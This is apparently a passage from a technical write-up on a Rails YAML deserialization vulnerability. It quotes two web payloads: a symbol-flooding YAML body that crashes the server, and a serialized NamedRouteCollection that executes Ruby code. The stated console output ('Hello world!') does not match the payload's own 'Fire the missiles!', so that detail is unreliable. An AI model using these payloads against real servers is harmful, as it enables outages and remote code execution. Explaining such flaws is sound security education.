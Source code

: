 The `DoS` attack is similar to the payload containing a `Time` object that we
have already seen. Only this time, we `POST` a great many Ruby symbols to the
application. Since symbols are never garbage collected once defined, the
deserialization of this payload will result in the symbol table overflowing and
the application crashing.

Examples of this and many other attacks are provided by blogger under the alias
*ronin*[2].  Here is a simple example of a payload for a `DoS` attack:

    <?xml version="1.0" encoding="UTF-8"?>
    <exploit type="yaml">---
      :foo1: true
      :foo2: true
      :foo3: true
      <!-- ... -->
      :foo1000000: true
      <!-- ... -->
    </exploit>

We see that the possibility of having arbitrary `YAML` deserialized
on the server is a clear vulnerability. Still, in order to achieve remote code
execution, yet another vulnerability must be exploited.

Not long after the discovery of the vulnerability, a vulnerable class was
discovered that when deserialized from `YAML` could potentially cause untrusted
data to be evaluated as code. *ronin* provides us with a payload that contains
such a class:

    <?xml version="1.0" encoding="UTF-8"?>
    <exploit type="yaml">
    --- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection
    ? |
      foo; (puts 'Fire the missiles!'; @executed = true) unless @executed
      __END__
    : !ruby/struct
      defaults:
        :action: create
        :controller: foos
      required_parts: []
      requirements:
        :action: create
        :controller: foos
      segment_keys:
        - :format
    </exploit>
{: .language-http}

When sent as a `POST` request to the default route of our application, it
causes:

    "Hello world!"

to be printed in the server console. From this we can conclude that by
contstructing payloads containing a serialized `NamedRouteCollection`, we can
have the application execute arbitrary code.
